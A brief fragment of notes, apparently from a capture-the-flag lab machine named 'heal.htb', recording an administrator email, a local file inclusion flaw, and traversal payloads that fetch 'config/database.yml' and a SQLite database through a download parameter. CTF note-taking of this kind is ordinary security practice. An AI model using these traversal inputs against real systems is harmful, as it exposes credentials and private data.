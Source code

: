 Administrator ( ralph@heal.htb )
have lfi vuln
../../config/database.yml
http://hell.htb/download?filename=../../development.sqlite3